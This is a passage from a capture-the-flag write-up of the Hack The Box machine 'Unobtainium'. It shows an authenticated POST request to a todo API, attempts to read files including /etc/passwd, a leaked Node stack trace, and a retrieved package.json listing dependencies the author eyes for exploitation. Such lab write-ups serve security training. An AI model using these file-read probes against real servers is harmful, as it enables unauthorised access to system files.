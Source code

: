 ```bash
POST /todo HTTP/1.1
Host: unobtainium.htb:31337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Accept: */*
Content-Type: application/json
Content-Length: 73
Connection: close

{
	"auth":{
		"name":"felamos",
		"password":"Winter2021"
	},
	"filename":"todo.txt"
}
```

We can successfully send a request for the `todo.txt`. Let's try for some other things. I tested for `/etc/passwd`, `user.txt`, `todox.txt`, and `blank`.

It seems the server doesn't give a response unless the file exists or no parameter is supplied. With a blank filename we get the following:

```bash
Error: ENOENT: no such file or directory, open<br> &nbsp; &nbsp;at Object.openSync (fs.js:476:3)<br> &nbsp; &nbsp;at Object.readFileSync (fs.js:377:35)<br> &nbsp; &nbsp;at /usr/src/app/index.js:86:41<br> &nbsp; &nbsp;at Array.forEach (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at /usr/src/app/index.js:84:36<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /usr/src/app/node_modules/express/lib/router/index.js:281:22
```

We get a little information on where the app lives `/usr/src/app/index.js` alongside knowing it is `JavaScript` backend. We can try grabbing the `package.json` and looking for what dependences the server is using - this may lead to something we can exploit!

Success!

```bash
{
  "name": "Unobtainium-Server",
  "version": "1.0.0",
  "description": "API Service for Electron client",
  "main": "index.js",
  "scripts": {
    "start": "node index.js"
  },
  "author": "felamos",
  "license": "ISC",
  "dependencies": {
    "body-parser": "1.18.3",
    "express": "4.16.4",
    "lodash": "4.17.4",
    "google-cloudstorage-commands": "0.0.1"
  },
  "devDependencies": {}
}
```
